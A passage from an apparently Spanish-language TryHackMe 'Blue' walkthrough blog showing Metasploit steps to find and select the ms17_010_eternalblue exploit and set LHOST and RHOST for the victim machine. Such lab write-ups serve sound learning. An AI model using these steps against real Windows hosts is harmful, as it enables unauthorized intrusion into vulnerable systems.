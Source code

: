 ```    
search eternalblue
search ms17-010
```

![5](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-11-15-Blue-TryHackMe/5.png){:class="blog-image" onclick="expandImage(this)"} 

Posteriormente elegiremos el _exploit_ a utilizar; de hecho, una de las preguntas de la plataforma justamente es, introducir el _exploit_ que vamos a utilizar.

```      
use exploit/windows/smb/ms17_010_eternalblue
```  

Una vez hemos seleccionado el _exploit_, procederemos a configurar tanto el `LHOST` como el `RHOST`, que, dicho de otra forma, procederemos a introducir nuestra _IP_, y la _IP_ de la máquina víctima.

```      
show options
```

![6](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-11-15-Blue-TryHackMe/6.png){:class="blog-image" onclick="expandImage(this)"} 
